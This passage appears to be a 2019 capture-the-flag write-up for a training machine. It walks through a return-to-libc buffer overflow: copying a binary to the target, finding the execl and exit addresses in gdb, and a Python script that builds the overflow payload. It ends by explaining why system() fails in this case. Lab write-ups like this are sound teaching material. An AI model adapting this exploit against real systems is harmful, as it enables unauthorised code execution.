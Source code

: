 Send it to the box:

> scp booj.elf xalvas@10.10.10.27:/tmp

Find the function we need:

> gdb-peda$ p execl

>> $1 = {<text variable, no debug info>} 0xb7ecaa80 <__GI_execl>

> gdb-peda$ p exit

>> $2 = {<text variable, no debug info>} 0xb7e489d0 <__GI_exit>

The `execl` function usage:

```c
int execl(const char *path, const char *arg0,
     ...  /* const char *argn, NULL */);
```

Since it requested args, but we don't need them, just pass NULL into it.

But it may leads to problem, however, it use `copy()` with `fread()`, so it's not going to be a problem here.


In this way, the exploit should be like this:

```python
#!/usr/bin/env python3
import struct

ret_address = struct.pack('<I',0xbffff540) # replace this with vulnaddr

tmpbooj = b"/tmp/booj.elf\x00\x00\x00"
execl = struct.pack("<L", 0xb7ecaa80)
exit = struct.pack("<L", 0xb7e489d0)

buf = b""
buf += tmpbooj.ljust(76, b'\x90')
buf += execl
buf += exit
buf += ret_address
buf += struct.pack("<L", 0x0)
buf += struct.pack("<L", 0x0)

with open('tmpbuf','wb') as buffef:
	buffef.write(buf)
```

(2) Why not `system()` ?

`system` can be broken down into three function calls `fork`, `exec` and `wait`. So the entire process memory is forked and the given file is then run. The issue with [this](https://stackoverflow.com/questions/32892908/c-system-raises-enomem?noredirect=1&lq=1) is we’re liable to run out of virtual memory if we use this. Give it a try if you want and you’ll see that the exploitation fails. If you do manage to get it working, let me know.

(END) 2019.6.10
